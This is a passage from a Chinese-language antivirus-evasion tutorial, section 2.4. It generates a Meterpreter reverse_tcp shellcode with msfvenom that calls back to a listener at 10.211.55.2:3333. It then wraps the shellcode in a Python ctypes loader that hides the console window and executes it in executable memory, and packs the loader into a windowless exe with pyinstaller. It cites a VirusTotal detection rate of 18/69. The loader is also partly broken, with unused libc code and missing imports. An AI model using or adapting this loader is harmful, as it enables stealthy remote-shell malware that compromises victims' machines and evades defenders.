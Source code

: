 ## 2.4 方法4：py+C编译exe(VT免杀率18/69)

和2.1方法一样，先生成shellcode。

先用msfvenom生成shellcode:
```
msfvenom -p windows/meterpreter/reverse_tcp   LHOST=10.211.55.2 LPORT=3333   -f c
```
python代码如下：
```
import ctypes

buf =  ""
#libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr:
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()
if whnd != 0:
       if 1:
              ctypes.windll.user32.ShowWindow(whnd, 0)
              ctypes.windll.kernel32.CloseHandle(whnd)
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```
使用pyinstaller编译打包exe，生成文件大小3.4M
```
python pyinstaller.py -F -w pyshellcode.py
```
